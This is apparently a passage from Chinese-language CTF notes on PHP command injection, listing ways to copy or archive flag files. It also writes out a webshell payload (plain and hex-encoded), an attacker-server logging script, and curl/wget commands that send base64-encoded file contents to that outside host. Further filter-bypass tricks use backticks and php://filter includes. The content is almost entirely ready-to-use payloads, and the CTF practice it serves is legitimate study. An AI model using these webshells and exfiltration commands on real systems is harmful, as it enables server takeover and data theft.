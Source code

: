 复制，压缩，写shell等方法

```php
copy flag.php 1.txt		//复制
mv flag.php flag.txt	//改名
cat flag.php > flag.txt
tar cvf flag.tar flag.php	//压缩
tar zcvf flag.tar.gz flag.php
echo 3c3f706870206576616c28245f504f53545b3132335d293b203f3e|xxd -r -ps > webshell.php 
echo "<?php @eval(\$_POST[123]); ?>" > webshell.php	//写入webshell
```



**在vps上建立记录脚本**

在自己的公网服务器站点根目录写入php文件，内容如下：
record.php

```php
<?php
$data =$_GET['data'];
$f = fopen("flag.txt", "w");
fwrite($f,$data);
fclose($f);
?>
```

在目标服务器的测试点可以发送下面其中任意一条请求进行测试

```php
curl http://*.*.*.**/record.php?data=`cat flag.php|base64`
wget http://*.*.*.*/record.php?data=`cat flag.php|base64`
```



#### >/dev/null 2>&1类无回显

ctfshow-web入门42-wp



### 8、无数字字母getshell

异或、取反、自增、或、上传临时文件





### 9、过滤括号

**使用不需要括号的函数**

```php
echo `cat /flag` 
```

- require、include

  ```php
  require '/flag'
  include%09$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
  ```
